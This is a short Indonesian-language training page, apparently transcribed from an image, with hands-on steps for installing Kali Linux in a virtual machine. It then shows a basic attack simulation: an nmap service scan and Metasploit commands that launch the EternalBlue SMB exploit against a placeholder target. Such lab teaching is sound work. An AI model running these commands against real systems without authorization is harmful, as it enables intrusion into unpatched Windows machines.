 # **Hands-On:**

#### 1. **Instalasi Kali Linux di VirtualBox/VMware**
   - **Langkah-langkah**:
     1. Unduh ISO Kali Linux dari situs resmi.
     2. Buat mesin virtual baru di VirtualBox/VMware.
     3. Mount ISO Kali Linux ke mesin virtual.
     4. Ikuti proses instalasi hingga selesai.
     5. Konfigurasi jaringan dan update sistem.

#### 2. **Simulasi Dasar Serangan Menggunakan Terminal Kali Linux**
   - **Contoh Simulasi**:
     - **Nmap Scanning**: Gunakan perintah `nmap` untuk memindai port pada target.
       ```bash
       nmap -sV <target_IP>
       ```
     - **Metasploit Framework**: Gunakan Metasploit untuk eksploitasi kerentanan.
       ```bash
       msfconsole
       use exploit/windows/smb/ms17_010_eternalblue
       set RHOSTS <target_IP>
       exploit
       ```
